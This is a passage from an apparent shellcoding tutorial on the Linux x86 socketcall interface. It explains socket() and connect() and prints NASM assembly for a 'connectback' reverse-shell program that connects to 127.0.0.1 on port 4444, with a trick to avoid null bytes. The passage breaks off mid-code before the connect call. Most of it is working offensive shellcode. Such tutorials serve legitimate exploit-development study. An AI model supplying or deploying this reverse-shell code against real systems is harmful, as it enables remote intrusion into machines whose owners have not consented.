```c
int socket(int domain, int type, int protocol);
```

Once, we created a socket, we need to connect to the remote machine using **SYS_CONNECT** or **3** type with the argument for *connect()*. Again, we reuse the syscall number **0x66** but with the following arguments :
  - The type of socket, here [SYS_CONNECT](http://man7.org/linux/man-pages/man2/connect.2.html) or **3** -> *EBX*
  - The *args*, a pointer to the block containing the actual arguments -> *ECX*

There are 3 arguments for a call to [connect()](http://man7.org/linux/man-pages/man2/connect.2.html):
  - The file descriptor previously created with *socket()*
  - The pointer to *sockaddr* structure containing the IP, port and address family (AF_INET)
  - The *addrlen* argument which specifies the size of *sockaddr*, or 16 bytes.

```c
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

Just so you know, here is the definition of the *sockaddr* structure :

```c
struct sockaddr {
	sa_family_t	sa_family;	/* address family, AF_xxx	*/
	char		sa_data[14];	/* 14 bytes of protocol address	*/
};
```

Now, let's write that down :

```nasm
; nasm -f elf32 connectback.asm
; ld -m elf_i386 connectback.o -o connectback
BITS 32

section .text
global _start

_start:
; Call to socket(2, 1, 0)
push 0x66     ; socketcall()
pop eax 
xor ebx, ebx
inc ebx       ; EBX = 1 for SYS_SOCKET
xor edx, edx  ; Bulding args array for socket() call
push edx      ; proto = 0 (IPPROTO_IP)
push BYTE 0x1 ; SOCK_STREAM
push BYTE 0x2 ; AF_INET
mov ecx, esp  ; ECX contain the array pointer
int 0x80      ; After the call, EAX contains the file descriptor

xchg esi, eax ; ESI = fd

; Call to connect(fd, [AF_INET, 4444, 127.0.0.1], 16)
push 0x66         ; socketcall()
pop eax 
mov edx, 0x02010180 ; Trick to avoid null bytes (128.1.1.2)
sub edx, 0x01010101 ; 128.1.1.2 - 1.1.1.1 = 127.0.0.1
push edx          ; store 127.0.0.1
push WORD 0x5c11  ; push port 4444
inc ebx           ; EBX = 2
push WORD bx      ; AF_INET
mov ecx, esp      ; pointer to sockaddr
push BYTE 0x10    ; 16, size of addrlen
push ecx          ; new pointer to sockaddr
push esi          ; fd pointer
```